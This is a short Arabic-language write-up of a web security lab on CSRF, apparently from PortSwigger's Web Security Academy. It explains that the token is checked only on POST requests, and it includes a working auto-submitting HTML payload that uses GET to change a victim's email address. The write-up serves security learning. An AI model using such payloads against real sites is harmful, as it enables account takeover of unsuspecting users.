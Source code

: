فكرة اللاب ده هي أنه لازم يبقي فيه `csrf token` طول ما ال `request method` = `POST` 
ف لما غيرنا ال `request method` الي `GET` مكنش بيعمل `check` علي ال `csrf`

وده كان ال form بتاعت الفانكشن المصابة واللي بتاعت `change email`
```HTML
<form class="login-form" name="change-email-form" action="[/my-account/change-email](view-source:https://0a9f0077048a87e98219f6f100330057.web-security-academy.net/my-account/change-email)" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="">
	<input required name="csrf" value="VPAnOlHv4Om75YyduXZcEIwWKP146OLo">
	<button class='button' type='submit'> Update email </button>
</form>
```
ف خليتها كدة بحيث اني لو بعت الكود لشخص وداس عليه اقدر اغير الايميل بتاعه
```HTML
<form action="https://0a9f0077048a87e98219f6f100330057.web-security-academy.net/my-account/change-email" method="GET">
    <input required type="email" name="email" value="hacker@test.com">
</form>

<script> document.forms[0].submit(); </script>
```

### نتعلم اي من اللاب ده ؟

* اننا نجرب نغير في ال `request method` عشان نحاول نتخطي الحماية